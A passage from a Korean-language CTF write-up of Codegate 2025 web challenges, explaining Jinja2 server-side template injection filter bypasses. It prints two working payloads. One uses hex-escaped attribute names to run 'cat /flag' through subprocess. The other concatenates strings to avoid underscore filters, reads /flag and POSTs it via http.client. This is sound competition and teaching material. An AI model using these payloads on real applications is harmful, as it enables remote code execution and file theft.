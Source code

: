 위 블로그를 보고 나서 2개의 방법을 활용하여 아래와 같은 페이로드를 제작할 수 있다.

```python
{{ ''|attr('__class__') }} # 대괄호 우회
{{ ''|attr('\x5f\x5fclass\x5f\x5f') }} # 언더바 우회 (문자 우회)
```

![@localhost_only 해제 후 테스트](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%201.png)

@localhost_only 해제 후 테스트

```python
</pre><pre id="flag">{{()|attr('\x5f\x5fcl\x61ss\x5f\x5f')|attr('\x5f\x5fb\x61se\x5f\x5f')|attr('\x5f\x5fsubcl\x61sses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(485)('cat /flag',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}</pre><pre>
```

flag 파싱을 간단하게 하기 위해 새로운 `<pre id=”flag”>` 태그를 넣어줬다.

---

### 1.2 SSTI 필터를 우회하는 다른 방법

Codegate 2025 Finals에서 [Void](https://pdw0412.tistory.com/)가 아래와 같은 방법으로 풀이하였다.

전체적인 익스플로잇 흐름은 유사하지만 `\`를 사용하지 않은게 흥미로워서 인용하였다.

페이로드를 먼저 보면 아래와 같다.

```html
{% set u='_' %}{% set d=u*2 %} {% set g =
cycler|attr(d~'i'~'n'~'i'~'t'~d)|attr(d~'g'~'l'~'o'~'b'~'a'~'l'~'s'~d) %} {% set
get_fg = g | attr('g'~'e'~'t') %} {{get_fg}} {% set b =
get_fg(d~'b'~'u'~'i'~'l'~'t'~'i'~'n'~'s'~d) %} {% set get_fb = b |
attr('g'~'e'~'t') %} {% set imp = get_fb(d~'i'~'m'~'p'~'o'~'r'~'t'~d) %} {{imp}}
{% set dot = get_fb('chr')(46) %} {% set http = imp('h' ~ 't' ~ 't' ~ 'p' ~ dot
~ 'c' ~ 'l' ~ 'i' ~ 'e' ~ 'n' ~ 't') %} {{http}} {% set httpc =
imp('h'~'t'~'t'~'p'~dot~'c'~'l'~'i'~'e'~'n'~'t', None, None, ('client',)) %} {%
set lh = 'localho'~'st' %} {{lh}} {% set conn = httpc|attr('HTTPConnection')(lh,
5000) %} {{conn}} {% set rq = 'r'~'e'~'q'~'u'~'e'~'s'~'t' %} {% set str_op =
'op'~'en' %} {{str_op}} {% set op = get_fb(str_op) %} {{op}} {% set rd =
'r'~'e'~'a'~'d' %} {% set flag = op('/flag')|attr(rd)() %} {{flag}} {% set body
= 'title=win&content=' ~ flag|urlencode %} {% set hdrs =
{'Content-Type':'application/x-www-form-urlencoded'} %} {% set str_pt =
'PO'~'ST' %} {{str_pt}} {{ conn | attr(rq)(str_pt, '/accept', body, hdrs) }} {{
conn | attr('g'~'e'~'t'~'r'~'e'~'s'~'p'~'o'~'n'~'s'~'e')() }}
```

jinja2에서 변수를 선언하기 위해서는 `{% name = value %}`와 같은 방식으로 선언해야한다.

`__` (언더바 2개) 필터링을 우회하기 위해 `{% set u='_' %}{% set d=u*2 %}`를 사용한다.

이후에 **`cycler.init.globals.__builtins__.import`** 로 `http.client`를 불러오고, `open('/flag')`를 통해 읽은 flag를 `/accept`에 POST 요청으로 보내 flag를 서버에 저장하고, flag를 읽어온다.

---

### 2. XSS로 `/accept` 로 요청보내기
